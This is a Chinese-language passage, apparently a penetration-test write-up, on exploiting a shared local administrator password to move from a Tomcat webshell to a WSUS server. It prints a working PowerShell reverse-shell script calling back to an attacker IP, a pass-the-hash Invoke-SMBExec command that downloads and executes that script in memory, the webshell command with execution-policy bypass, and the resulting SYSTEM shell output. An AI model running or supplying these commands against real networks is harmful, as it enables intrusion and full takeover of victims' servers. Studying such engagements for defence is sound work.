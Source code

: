 在一家公司，所有服务器都使用相同的本地管理员密码其实很常见。这常常与第一次创建服务器有关系（非最佳实践），第一次被创建的服务器成为了模板，于是随后部署的实例都保留了原有的管理员密码。

经过一系列大型测试，现在事情变得更复杂了，我们有以下计划：

将我们之前的Powershell脚本(r1.ps1)放到公共web服务器上



```
function Invoke-r1
{
$client = New-Object Net.Sockets.TCPClient(‘&lt;OUR_PUBLIC_IP&gt;’,80)
$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
$sendback = (iex $data 2&gt;&amp;1 | Out-String )
$sendback2 = $sendback + ‘PS ‘ + (pwd).Path + ‘&gt; ‘
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
$stream.Write($sendbyte,0,$sendbyte.Length)
$stream.Flush()
}
$client.Close()
}
```

用Tomcat的webshell上传[SMBExec(smb.ps1)](https://github.com/Kevin-Robertson/Invoke-TheHash/blob/master/Invoke-SMBExec.ps1)，这将允许我们[传递哈希](https://en.wikipedia.org/wiki/Pass_the_hash)进行身份验证

我们稍微修改了原始的SMBExec脚本，添加了一些行用于自动化漏洞利用。一旦被加载，它就会自动调用必要的参数连接到WSUS服务器，在我们的服务器下载反向shell到内存，然后执行



```
Invoke-SMBExec 
-Target &lt;SRVWSUS_IP&gt; 
-Username Administrator -Hash 604603ab105adc8XXXXXXXXXXXXXXXXX 
-Command 
“powershell `”IEX (New-Object Net.WebClient).DownloadString(`’http://&lt;OUR_PUBLIC_IP&gt;/r1.ps1`’); Invoke-r1`””
```

这就是我们的一体化解决方案：自动执行的SMBExec，自动下载并执行的Powershell脚本

在webshell里，我们执行了smb.ps1：



```
cmd /c powershell -executionpolicy bypass -f c:tomcatwebappscmdwarfilessmb.ps1
Command executed with service BHTLCPTEICLBHQPOVGSM on 192.168.178.62
```

这次攻击成功了，我们收到了来自SRVWSUS计算机的SYSTEM权限的Shell：



```
connect to &lt;OUR_PUBLIC_IP&gt; from &lt;COMPANY_PUBLIC_IP&gt; 50341
PS C:Windowssystem32&gt; whoami
nt authoritysystem
```
